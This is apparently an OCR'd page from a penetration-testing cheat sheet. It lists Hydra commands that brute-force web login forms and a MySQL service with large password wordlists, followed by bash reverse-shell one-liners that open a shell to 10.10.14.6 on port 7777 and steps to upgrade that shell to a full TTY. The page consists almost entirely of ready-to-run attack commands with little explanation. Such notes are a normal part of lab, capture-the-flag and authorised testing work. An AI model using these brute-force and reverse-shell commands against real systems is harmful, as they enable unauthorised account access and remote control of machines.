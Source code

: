 ```
hydra 192.168.0.1 -V -L /usr/share/wordlists/user.txt -P /usr/share/wordlists/rockyou.txt http-get-form "/login/:username=^USER^&password=^PASS^:F=Error:H=Cookie: safe=yes; PHPSESSID=12345myphpsessid" -t 15

```

HTTP Post Request
Check request in BURP to see Post parameters. -l or -L has to be set, even if there is no user to login with!. Use https-post-form instead of http-post-form for HTTPS sites.

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.0.1 http-post-form "/webapp/login.php:username=^USER^&password=^PASS^:Invalid" -t 15

```

MYSQL
Change MYDATABASENAME. Default databasename is mysql.

```
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt -vv mysql://192.168.0.1:3306/MYDATABASENAME -t 15

```

# Reverse Shell

## FULL TTY

```bash
ctrl+z
echo $TERM && tput lines && tput cols

# for bash
stty raw -echo
fg

# for zsh
stty raw -echo; fg

reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```



## Bash

```
bash -i >& /dev/tcp/10.10.14.6/7777 0>&1

bash -c "bash -i >& /dev/tcp/10.10.14.6/7777 0>&1"

```

